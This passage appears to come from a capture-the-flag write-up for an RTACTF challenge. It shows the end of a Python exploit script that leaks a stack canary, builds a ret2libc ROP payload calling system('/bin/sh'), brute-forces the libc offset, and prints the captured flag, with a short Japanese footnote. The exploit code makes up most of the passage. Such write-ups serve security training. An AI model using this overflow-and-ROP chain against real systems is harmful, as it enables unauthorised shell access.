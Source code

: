 ```python

    if DEBUG:
        input("[+] check addresses")

    addrs["canary"] = canary_addr
    diff = addrs["canary"] - addrs["array"]
    idx = diff // 0x8
    send(str(idx).encode())
    res = sc.recvline().strip().decode()
    leak = int(res)
    print(hex(leak))
    assert leak & 0xff == 0

    # BOF
    payload = b"12345678"
    payload += b"\x00" * 0x8 * 0x3
    payload += b"\x00\x10" + b"\x00" * 0x6  # ???
    payload += p64(leak)
    payload += p64(0)  # old-rbp
    payload += p64(rpg["pop_rdi"] + addrs["libc"])
    payload += p64(addrs["binsh"])
    payload += p64(rpg["ret"] + addrs["libc"])
    payload += p64(addrs["system"])

    send(payload)

    sc.interactive()



if __name__ == "__main__":
    exploit(0)
    exit()
    # search valid offset
    for i in range(0x10):
        diff = 0x1000 * i
        print(f"[+] testing {diff:x}")
        try:
            exploit(diff)
            print("ok")
        except EOFError:
            print("fail")

# RTACTF{r3m3mb3r_m4st3r_canaryyyyyy......}
# 17529.89 sec
```

## Flag

`RTACTF{r3m3mb3r_m4st3r_canaryyyyyy......}`


[^1]: ROPガジェットのためにELFの配置先をリークしておいたが、`pop rdi; ret;`すら存在しなかったので残念ながら役に立つことは無かった